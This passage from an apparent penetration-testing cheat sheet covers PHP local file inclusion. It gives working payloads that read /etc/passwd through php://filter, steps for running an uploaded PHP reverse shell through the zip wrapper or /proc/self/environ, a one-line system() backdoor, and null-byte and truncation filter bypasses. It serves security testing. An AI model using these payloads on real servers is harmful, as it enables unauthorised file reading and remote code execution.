 ```/script.php?page=index.html```
![image](https://github.com/user-attachments/assets/754ef1b3-9c85-4717-bff3-35a793d295bb)

```php://filter```

allows a pen tester to include local files and base64 encodes the output. Therefore, any base64 output will need to be decoded to reveal the contents.

```vuln.php?page=php://filter/convert.base64-encode/resource=/etc/passwd```

![image](https://github.com/user-attachments/assets/e6bfc8f4-fb9e-49c6-83bc-ccf03c961699)

Base64 decoding the string provides the ```/etc/passwd``` file:

![image](https://github.com/user-attachments/assets/1b0e5194-b307-4020-b469-e3c6d392e34c)

php://filter can also be used without base64 encoding the output using:

```?page=php://filter/resource=/etc/passwd```

![image](https://github.com/user-attachments/assets/4419d47c-95c7-4ba1-a509-2f1f8be18a3c)

## PHP ZIP Wrapper LFI
The zip wrapper processes uploaded .zip files server side allowing a penetration tester to upload a zip file using a vulnerable file upload function and leverage he zip filter via an LFI to execute. A typical attack example would look like:

- 1. Create a PHP reverse shell
- 2. Compress to a .zip file
- 3. Upload the compressed shell payload to the server
- 4. Use the zip wrapper to extract the payload using: ```php?page=zip://path/to/file.zip%23shell```
- 5. The above will extract the zip file to shell, if the server does not append .php rename it to shell.php instead

If the file upload function does not allow zip files to be uploaded, attempts can be made to bypass the file upload function (see: OWASP file upload testing document).

# LFI via /proc/self/environ
If it’s possible to include ```/proc/self/environ``` via a local file inclusion vulnerability, then introducing source code via the User Agent header is a possible vector. Once code has been injected into the User Agent header a local file inclusion vulnerability can be leveraged to execute ```/proc/self/environ``` and reload the environment variables, executing your reverse shell.

## Useful Shells
Useful tiny PHP back doors for the above techniques:

```<? system(‘uname -a’);?>```

# Null Byte Technique
Null byte injection bypasses application filtering within web applications by adding URL encoded "Null bytes" such as ```%00```. Typically, this bypasses basic web application blacklist filters by adding additional null characters that are then allowed or not processed by the backend web application.

Some practical examples of null byte injection for LFI:

```vuln.php?page=/etc/passwd%00```
```vuln.php?page=/etc/passwd%2500```

# Truncation LFI Bypass
Truncation is another blacklist bypass technique. By injecting long parameter into the vulnerable file inclusion mechanism, the web application may "cut it off" (truncate) the input parameter, which may bypass the input filter.

```